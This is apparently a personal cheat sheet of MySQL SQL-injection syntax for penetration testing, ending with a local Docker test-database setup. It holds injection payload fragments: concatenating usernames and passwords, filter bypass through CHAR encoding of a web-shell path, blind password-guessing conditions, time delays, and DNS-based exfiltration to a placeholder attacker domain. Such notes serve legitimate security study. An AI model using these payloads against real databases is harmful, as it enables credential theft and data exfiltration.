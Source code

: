 # MySQL Database

## Comment Syntax

1. `#`
	* `#COMMENT HERE` 
2. `-- `
	* `-- COMMENT HERE`
	* Note the required whitespace
3. `/* */`
	* `/*COMMENT HERE*/` 

---

## Version Query Syntax

```sql
SELECT @@version
```

```sql
SELECT version()
```

---

## String Concatenation Syntax

```sql
SELECT CONCAT(username, ':', password) FROM users
```

* Takes a variable number of arguments
* Arguments can be column names from the target table or string literals

---

## Cast an Integer into a Character

```sql
-- CHAR($INTEGER)
```

```sql
SELECT path FROM paths WHERE path = CONCAT(CHAR(47),'var',CHAR(47),'www',CHAR(47),'html',CHAR(47),'shell',CHAR(46),'php') -- /var/www/html/shell.php
```

* Especially helpful for bypassing tricky input restrictions on file paths (i.e., no `/`, `\`, and `.` allowed)


---

## Substring Syntax

```sql
SUBSTRING($STRING, $START_INDEX, $LENGTH)
```

```sql
SELECT COUNT(*) FROM users WHERE SUBSTRING(password,1,1) > 'm'
```
* Indices start at 1

---

## Conditional Syntax

```sql
SELECT IF($CONDITION, $VALUE_IF_TRUE, $VALUE_IF_FALSE)
```

```sql
SELECT IF(COUNT(*) = 1, 1, 0) FROM users WHERE username = 'admin' AND password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

Alternatively,

```sql
SELECT CASE WHEN ($CONDITION) THEN $VALUE_IF_TRUE ELSE $VALUE_IF_FALSE END
```

```sql
SELECT CASE WHEN (COUNT(*) = 1) THEN 1 ELSE 0 END FROM users WHERE username = 'admin' and password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

---

## Time delay syntax

[Reference](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Unconditionally wait for 10 seconds

```sql
SELECT sleep(10)
```

### Conditionally wait for 10 seconds

```sql
SELECT IF ($CONDITION$, sleep(10), 'a')
```

---

## DNS Lookup Syntax

```sql
LOAD_FILE('\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## DNS Lookup with Data Exfiltration Syntax

```sql
SELECT $COLUMNS_TO_EXFIL INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## Table enumeration

[[database-enumeration#Querying database tables non-Oracle]]

---

## Table column enumeration

[[database-enumeration#Querying database tables' columns non-Oracle]]

---

## Show Current User's MySQL Privileges

```sql
show grants
```

---

## Interact with test database

[Reference](https://hub.docker.com/r/genschsa/mysql-employees)

On a Linux machine with Docker installed, run the `mysql-employees` Docker container.
* Change `$PASSWORD`

```bash
docker run -d -it --rm \
  --name mysql-employees \
  -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=blah \
  -v $PWD/data:/var/lib/mysql \
  -v $PWD/mysqld.cnf:/etc/mysql/mysql.conf.d/mysqld.cnf \
  genschsa/mysql-employees
```

Get a shell in the container.

```bash
docker exec -it $CONTAINER_ID /bin/bash
```

In the container, connect to the test MySQL database.

```bash
mysql -u root -p
```

Query away!